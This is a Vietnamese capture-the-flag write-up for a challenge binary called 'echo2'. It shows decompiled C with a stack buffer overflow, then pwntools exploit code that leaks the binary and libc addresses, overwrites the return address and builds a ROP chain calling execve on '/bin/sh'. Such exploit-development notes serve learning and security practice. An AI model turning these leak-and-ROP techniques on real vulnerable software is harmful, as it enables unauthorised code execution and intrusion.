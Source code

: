 # echo2

## IDA

```c
int echo()
{
  char ptr[264]; // [rsp+0h] [rbp-110h] BYREF
  int v2[2]; // [rsp+108h] [rbp-8h] BYREF

  puts("Welcome to Echo2");
  v2[1] = __isoc99_scanf("%d", v2);
  fread(ptr, 1uLL, v2[0], stdin);
  return printf("Echo2: %s\n", ptr);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  echo();
  puts("Goodbye from Echo2");
  return 0;
}
```

## Ý tưởng

- mảng v2[] được khai báo int (4byte)
- `  v2[1] = __isoc99_scanf("%d", v2);` dòng này hơi lạ, em tìm trên gpt thì em hiểu:
- hàm scanf() trả về số lượng phần tử đã được gán giá trị thành công. (ở đây là 1 (do nhập vào là số))
- và ta ghi giá trị vào v2 là con trỏ, là ta đang ghi vào v2[0]
- Như vậy, ta có thể ow được rip để điều khiển
- Do hàm này không có hàm tạo shell nên có thể là ret2libc, ta cần leak được libc, nhưng do địa chỉ động nên ta cần leak địa chỉ exe, để có got

## Thực thi

### Leak exe

- Ta sẽ ow rbp để khi %s nó sẽ luôn địa chỉ ret của echo

```python
    payload = b'a'*279
    r.sendlineafter(b'Echo2\n', b"280")
    r.send(payload)
```

- Nó sẽ leak cho ta ret của echo nhưng như vậy chưa đủ vì leak xong chương trình kết thúc
- Ta kiểm tra địa chỉ của ret echo là `0x00558efb2072b3` và main là `0x558efb207247`
- 2 địa chỉ khá giống nhau nên ta chỉ cần ghi thêm 1 byte để ghi đè ret echo thành main để khi kết thúc nó sẽ chạy lại chương trình
- Do nhảy vào đầu main có lỗi xmm1 nên ta sẽ nhảy vào main + 5 là cần ghi đè thành byte 0x4c ("L")
- Nên sửa lại payload một xíu, và tính toán exe base

```python
    payload = b'a'*279 + b"L"
    r.sendlineafter(b'Echo2\n', b"281")
    r.send(payload)

    r.recvuntil(b'a'*279)
    exe_leak = u64(r.recvline(keepends=False) + b'\0\0')
    exe.address = exe_leak - 4684
    log.info("leak exe: " + hex(exe_leak))
    log.info("base exe: " + hex(exe.address))
```

### Leak libc

- chỗ này em thắc mắc tại sao phải đưa ret vào =(( (em co script của a)

```python
    ret = exe.address + 0x000000000000101a
    payload = b'b'*279
    payload += p64(ret) + p64(exe.plt['printf'])
    payload += p64(ret) + p64(exe.sym['echo'])
    r.sendlineafter(b'Echo2\n', str((len(payload) + 1)))
    r.send(payload)

    r.recvlines(2)
    leak_libc = u64(r.recvuntil(b'Welcome', drop=True) + b"\0\0")
    libc.address = leak_libc - 401616
    log.info("leak libc: " + hex(leak_libc))
    log.info("leak libc: " + hex(libc.address))
```

### rop

- Đến đây ta có thể dùng one_gadget, tuy nhiên khi sử dụng one_gadget mặc dù đã thoả các điều kiện rồi nhưng vẫn lỗi, buộc ta phải rop bằng tay =)))
- Dùng ROPgadget trong file exe không có các pop nên ta sẽ sử dụng ROPgadget lên file libc vì nó có đầy đủ
- Ta cần pop các thanh ghi sau

```
    rsi = libc.address + 0x000000000002be51
    rdi = libc.address + 0x000000000002a3e5
    rax_rdx_rbx = libc.address + 0x0000000000090528
    syscall = libc.address + 0x0000000000029db4
```

- Cuối cùng tạo shell ta tạo shell thui

```python
    payload = b'a'*279
    payload += flat(
        rsi, 0,
        rdi, next(libc.search(b"/bin/sh")),
        rax_rdx_rbx, 0x3b, 0x0, 0x0,
        syscall
    )
    r.sendlineafter(b'Echo2\n', str((len(payload) + 1)))
    r.send(payload)
```
